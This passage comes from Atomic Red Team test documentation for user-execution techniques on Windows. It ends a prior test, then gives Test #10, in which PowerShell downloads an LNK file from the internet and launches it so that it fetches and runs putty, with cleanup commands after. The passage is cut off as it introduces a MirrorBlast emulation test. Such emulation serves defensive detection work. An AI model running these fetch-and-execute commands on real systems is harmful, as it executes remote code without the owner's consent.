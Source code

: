 ```powershell
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #10 - LNK Payload Download
This lnk files invokes powershell to download putty from the internet and opens the file. https://twitter.com/ankit_anubhav/status/1518932941090410496

**Supported Platforms:** Windows


**auto_generated_guid:** 581d7521-9c4b-420e-9695-2aec5241167f






#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest -OutFile $env:Temp\test10.lnk "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/bin/test10.lnk"
$file1 = "$env:Temp\test10.lnk"
Start-Process $file1
Start-Sleep -s 10
taskkill /IM a.exe /F
```

#### Cleanup Commands:
```powershell
$file1 = "$env:Temp\test10.lnk"
$file2 = "$env:Temp\a.exe"
Remove-Item $file1 -ErrorAction Ignore
Remove-Item $file2 -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #11 - Mirror Blast Emulation
Emulates the JS -> MSI chain of the MirrorBlast T505 campaign by executing an xlsm file designed. 
Requires the 32 bit version of Office to run. [MirrorBlast Campaign Analysis](https://blog.morphisec.com/explosive-new-mirrorblast-campaign-targets-financial-companies)
